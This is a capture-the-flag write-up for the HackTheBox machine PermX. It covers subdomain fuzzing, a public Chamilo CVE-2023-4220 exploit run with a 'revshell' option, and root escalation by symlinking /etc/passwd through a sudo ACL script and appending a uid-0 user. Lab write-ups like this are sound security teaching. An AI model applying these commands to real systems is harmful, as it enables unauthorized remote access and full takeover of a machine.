 ```yaml
---
title: PermX
tags:
  - Linux
  - Chamilo
  - CVE
  - Symlinks
  - HackTheBox
  - Easy
---
```

![](Pasted%20image%2020240901125933.png)

## Reconnaissance

First, I added the new host to my known ones:

```shell
sudo echo "10.10.11.23 permx.htb" | sudo tee -a /etc/hosts
```

Then I performed an Nmap scan:

```shell
nmap -sC -T4 -p- permx.htb > sC.txt

[redacted]
PORT   STATE SERVICE
22/tcp open  ssh
| ssh-hostkey: 
|   256 e2:5c:5d:8c:47:3e:d8:72:f7:b4:80:03:49:86:6d:ef (ECDSA)
|_  256 1f:41:02:8e:6b:17:18:9c:a0:ac:54:23:e9:71:30:17 (ED25519)
80/tcp open  http
|_http-title: eLEARNING
```

So let's inspect the webpage:

![](Pasted%20image%2020240901130310.png)

After inspecting the source code, I decided to perform a [dirsearch 📁](/notes/tools/dirsearch.md) scan. I didn't find anything, so I decided to perform a [Ffuf 🐳](/notes/tools/Ffuf.md) domain scan:

```shell
ffuf -u http://permx.htb/ -H 'Host: FUZZ.permx.htb' -w /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-20000.txt:FUZZ -fc 302

[redacted]
www                     [Status: 200, Size: 36182, Words: 12829, Lines: 587, Duration: 54ms]
lms                     [Status: 200, Size: 19347, Words: 4910, Lines: 353, Duration: 84ms]
```

>[!Note]
>*The `-fc` option is to filter by status codes*

I added the new subdomains to my known hosts and took a look at them:

![](Pasted%20image%2020240901131442.png)

A Free Software Learning Management system was found, **Chamilo**. 

## Weaponization

I found this script: [CVE-2023-4220](https://github.com/m3m0o/chamilo-lms-unauthenticated-big-upload-rce-poc)

## Exploitation

Once cloned, I used the script like:

```shell
python3 main.py -u http://lms.permx.htb -a revshell
```

>We've got a shell :D

![](Pasted%20image%2020240901132756.png)

Stabilize the shell with:

```shell
python3 -c "import pty; pty.spawn('/bin/bash')"
# then
export TERM=xterm
# Press -> Ctrl + Z
stty raw -echo; fg
```

Unfortunately, we've got no read permissions on user's home. So now I uploaded linpeas to gather information. I found the user's `mtz` password:

![](Pasted%20image%2020240901134117.png)

> So I connected through ssh and got the user flag :D

![](Pasted%20image%2020240901134211.png)

## Privilege Escalation

If we run linpeas again, we found the following:

![](Pasted%20image%2020240901134630.png)

If we run `sudo -l`:

![](Pasted%20image%2020240901134929.png)

Let's inspect that script:

![](Pasted%20image%2020240901135000.png)

This script allows us to set specific permissions on a specific file for a given user, but:
- The file path must be under `/home/mtz/`
- The file path cannot contain directory traversal symbols `..`

So, what we can do here is to create a symbolic link to the `/etc/passwd` file in the `/home/mtz` directory. Then edit the file to add a privileged user:

- Generate a password hash (in your machine):

```shell
openssl passwd gitblanc

$1$f38cgIRL$X1QP8m/e8ew.xshFc8Vd9/
```

- Escalate:

```shell
ln -s /etc/passwd passwd # create the symbolic link
sudo /opt/acl.sh mtz rwx /home/mtz/passwd
echo 'gitblanc:$1$f38cgIRL$X1QP8m/e8ew.xshFc8Vd9/:0:0:root:/root:/bin/bash' >> /home/mtz/passwd
```

- Check the passwd file to confirm that the new privileged user exists:

![](Pasted%20image%2020240901140110.png)

> Now just login as the new user: `gitblanc:gitblanc`, and got the root flag

![](Pasted%20image%2020240901140819.png)

==Machine pwned!==
